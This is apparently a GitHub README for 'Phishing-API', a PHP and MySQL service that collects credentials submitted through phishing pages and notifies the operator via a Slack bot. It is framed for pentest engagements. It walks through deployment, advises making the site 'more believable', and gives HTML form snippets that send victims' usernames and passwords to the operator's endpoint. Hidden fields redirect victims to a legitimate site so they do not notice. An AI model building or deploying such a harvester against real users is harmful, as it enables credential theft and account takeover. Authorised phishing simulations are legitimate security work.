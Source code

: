 # Phishing-API
Easy Deployment API for Phishing During Pentest Engagements.  Output to MySQL/Web Table &amp; Slack Bot

<img src="https://imgur.com/BIYQWry">

<img src="https://imgur.com/UjMVPJ3">


To Setup :

1) Import the DB SQL Dump Schema to a new MySQL Instance

2) Host the PHP in a web service

3) Configure dbconfig.php

4) Limit Access to the "Results" Directory (Apache's Basic Auth is Recommended)

5) Use SSL and a Domain for the Hosted API (More Believable for Phishing)



To Use : 

1) Point your HTML Form to https://YOUR-API-HERE

	`<FORM METHOD="POST" ACTION="https://YOUR-API-HERE">`

2)  Make sure the "username" and "password" fields are named as such

	`<INPUT NAME="username">`
	
	`<INPUT NAME="password">`
	
3) Add hidden input fields for the name of the project and the URL the users should be redirected to after submitting their credentials to you (Recommend Legitimate Site)

	`<INPUT NAME="project" VALUE="My_Project_Here" TYPE="hidden">`
	
	`<INPUT NAME="redirect" VALUE="https://site_to_redirect_to" TYPE="hidden">`
	
4) Optionally include hidden input fields for altering the Slack bot's behavior (Name and Emoji)

	`<INPUT NAME="slackbotname" VALUE="SuckerBot" TYPE="hidden">`
	
	`<INPUT NAME="slackemoji" VALUE=":see_no_evil:" TYPE="hidden">`
	
5) Sit back and wait for the Slack bot to notify you.  When you want to see the credentials visit https://YOUR-API-HERE/results using your basic auth credentials

